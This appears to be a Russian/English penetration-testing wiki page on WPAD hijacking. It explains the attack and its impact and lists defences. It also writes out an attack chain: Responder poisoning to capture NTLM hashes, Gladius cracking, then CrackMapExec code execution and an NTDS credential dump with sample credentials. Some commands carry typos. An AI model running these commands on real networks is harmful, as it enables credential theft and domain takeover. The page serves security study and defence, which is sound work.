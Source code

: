 # WPAD

## About

Web Proxy Auto-Discovery Protocol

http://wpad/wpad.dat as PAC file

Hijack WPAD -> Proxy Server

Insert any html tags in HTTP Response

![](<../../../.gitbook/assets/изображение (7).png>)

Атаке через протокол WPAD подвержены все системы — Linux, Windows, MacOS

Основная статья: [https://www.praetorian.com/blog/broadcast-name-resolution-poisoning-wpad-attack-vector/](https://www.praetorian.com/blog/broadcast-name-resolution-poisoning-wpad-attack-vector/)

## Impact

Злоумышленник может выполнить атаку «человек посередине» (MiTM) на уязвимые системы, если они находятся в той же локальной сети, что и система-жертва (внутренняя сеть, кафе, аэропорт).

Злоумышленник может выполнить атаку MiTM через Интернет, если он сможет зарегистрировать новый gTLD, который конфликтует с внутренней схемой имен, и развернуть поддельный прокси-сервер WPAD.

## Description

Есть разные варианты атаки, однако основная идея схожа. Атакующий отвечает на запросы аутентификации by spoofing name resolution responses. \[TODO]

## Example

Tools:\
Gladius: [https://www.praetorian.com/blog/gladius-automatic-responder-cracking](https://www.praetorian.com/blog/gladius-automatic-responder-cracking)\
HobORules: [https://www.praetorian.com/blog/hob064-statistics-based-password-cracking-rules-hashcat-d3adhob0](https://www.praetorian.com/blog/hob064-statistics-based-password-cracking-rules-hashcat-d3adhob0)\
Responder: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

Стартуем Gladius (чтобы он подхватывал хеши)

```
~/gladius# sudoo ./gladius.py --responder-ddir /home/ubuntu/Responder/logs -r hob064.rule
```

Далее запускаем Responder.

```
$ sudo responder -I eth2 -wF 
```

Далее заходим уже с полученными кредами по SMB, исполняем код, дампим ntds:

```
~/CrackMapExec# ./crackmapexec.py 10.10.10.2 -d CORP -u Administrator -p Password -x 'whoami'
~/CrackMapExec# ./crackmapexec.py 10.10.10.2 -d CORP -u Administrator -p Password --ntds drsuapi

```

Apart from getting the [NTLM hash to crack](https://zer1t0.gitlab.io/posts/attacking\_ad/#ntlm-hashes-cracking), this could be useful for [NTLM relay](https://zer1t0.gitlab.io/posts/attacking\_ad/#ntlm-relay) attacks, since the HTTP doesn't required sign in NTLM and therefore it can be used with any other protocol in NTLM cross-protocol relay attack.

Moreover, to serve the PAC file to the victim will allow you to execute some javascript code as the victim, which could be used to [exfiltrate the visited URLs](https://www.blackhat.com/docs/us-16/materials/us-16-Kotler-Crippling-HTTPS-With-Unholy-PAC.pdf).

## Защита

* Create a WPAD entry which points to the corporate proxy server or disable proxy auto-detection in Internet Explorer.
* Disable NBNS and LLMNR (test in a lab before deploying to all systems).
* Set valid DNS entries for all internal and external resources.
* Monitor the network for broadcast poisoning attacks.
* Restrict outbound 53/tcp and 445/tcp for all internal systems.

